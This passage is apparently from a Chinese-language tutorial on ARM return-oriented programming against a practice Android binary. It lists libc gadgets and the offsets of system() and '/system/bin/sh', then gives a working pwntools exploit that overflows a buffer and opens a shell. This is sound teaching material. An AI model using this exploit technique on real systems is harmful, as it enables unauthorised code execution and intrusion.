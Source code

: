 ```
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
} 
```

这个程序会先输出system的地址，相当于我们已经获取了这个进程的内存布局了。接下来要做的就是在libc.so中寻找我们需要的gadgets和字符串地址。因为libc.so很大，我们完全不用担心找不到需要的gadgets，并且我们只需要控制一个r0即可。因此这些gadgets都能满足我们的需求：

```
#!bash
0x00014f48 : ldr r0, [sp, #4] ; pop {r1, r2, r3, pc}
0x0002e404 : ldr r0, [sp, #4] ; pop {r2, r3, r4, r5, r6, pc}
0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc} 
```

接下来就是在libc.so中找 `system()` 和 `"/system/bin/sh"` 的位置：

![](http://img1.tuicool.com/mmqA7z3.png!web)

![](http://img1.tuicool.com/6jyyyq.png!web)

可以看到地址分别为 `0x000253A4` 和 `0x0003F9B4` 。当然了，就算获取了这些地址，我们也需要根据 `system()` 在内存中的地址进行偏移量的计算才能够成功的找到gadgets和 `"/system/bin/sh"` 在内存中的地址。除此之外，还要注意thumb指令和arm指令的转换问题。最终的exp level8.py如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level8')
p = remote('127.0.0.1',10001)

system_addr_str = p.recvuntil('\n')
print "str:" + system_addr_str
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

p.recvuntil('\n')

#.text:000253A4                 EXPORT system

#0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
gadget1 = system_addr + (0x00034ace - 0x000253A4)
print "gadget1 = " + hex(gadget1)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
r0 = system_addr + (0x0003F9B4 - 0x000253A4) - 1
print "/system/bin/sh addr = " + hex(r0)

payload =  '\x00'*132 + p32(gadget1) + p32(r0) + "\x00"*0x8 + p32(system_addr)

p.send(payload)

p.interactive() 
```
